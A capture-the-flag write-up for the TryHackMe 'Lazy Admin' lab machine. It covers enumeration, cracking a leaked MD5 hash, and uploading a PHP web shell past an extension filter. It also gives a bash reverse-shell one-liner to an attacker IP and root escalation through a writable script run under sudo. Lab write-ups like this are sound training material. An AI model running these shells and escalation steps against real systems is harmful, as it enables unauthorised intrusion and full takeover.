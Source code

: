 # Lazy Admin 

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Wed Oct 18 04:25:37 2023 as: nmap -p22,80 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.65.43
Nmap scan report for 10.10.65.43
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 18 04:25:55 2023 -- 1 IP address (1 host up) scanned in 18.84 seconds
```

Nice⚡, we have port `80` and `22` opened, Navigating to port `80/HTTP` we have a default Apache web page

![](https://i.imgur.com/xxzn8ql.png)



Running `ffuf` for dir/file bruteforce, we found 2 entries

![](https://i.imgur.com/02hSyX3.png)

Navigating to `/content` we have a **sweet rice** CMS page

![](https://i.imgur.com/LqnW8jw.png)

- Viewing-Page Source we know **sweet rice CMS** runs on version 0.5.4
- We found exploit on `searchsploit` but none seems to work

![](https://i.imgur.com/NMEeEJj.png)


Decided to run a dir/file bruteforce on `/content` and we have this -:


![](https://i.imgur.com/xRg3Zar.png)


Navigating to `/content/as` we found a login page


![](https://i.imgur.com/srSvAUz.png)

Tried out several attempts to login but none worked, decided to enumerate harder.

![](https://i.pinimg.com/736x/38/d7/96/38d796426dd19ebb4dac9f286f5cd435.jpg)

Navigating to the `/content/inc` folder we found a mysql backup directory


![](https://i.imgur.com/vA2A7Rn.png)

We can then download the backup file 

![](https://i.imgur.com/mVJfsfe.png)

Viewing the file we have a password hash in `MD5` and a username


![](https://i.imgur.com/JVnGQoo.png)

Cracking it with `hashcat`, we found a password

```bash
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -O
```


![](https://i.imgur.com/phmOUa4.png)


Navigating to media center we can upload files and the files are stored under `/attachment` directly

![](https://i.imgur.com/97r84Gf.png)



Uploaded our shell as `.php5` cos' it kept filtering out normal `php` extension. Navigating to where i uploaded my shell, it kept breaking it so here is what i did

![](https://i.imgur.com/48WCFcx.png)

- create a `anything.sh` file
- Paste this into the file and save

```bash
/bin/sh -i >& /dev/tcp/10.9.75.133/1337 0>&1
```

- start up a `python` server on attacker machine and download through our web shell with `wget`

```bash
# attacker machine - python
$ python3 -m http.server 80

# target web-shell - wget
$ wget anything.sh
```

- start up your listener `nc -lvnp 1337`
- On the web shell run `bash anything.sh`

![](https://i.imgur.com/RwTPpSj.png)


Navigating to our `/home` directory we have a `backup.pl` script, that runs a `copy.sh` script in the `/etc` folder


![](https://i.imgur.com/7jCqbSn.png)

Nice, we have read-write-execute access 🤖

![](https://i.imgur.com/YNwjUMV.png)

we can then add this script into the `/etc/copy.sh` file to get root


```bash
#!/bin/bash  
  
/bin/bash -i ;#
```

Also running `sudo -l` we can see that we have the permission to run the `backup.perl` file in `/home/itguy` folder, with `perl` as root

![](https://i.imgur.com/f59Jjtl.png)




Run the `backup.pl` script in `/home/itguy` directory and you should be root

```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

![](https://i.imgur.com/ynoCtur.png)


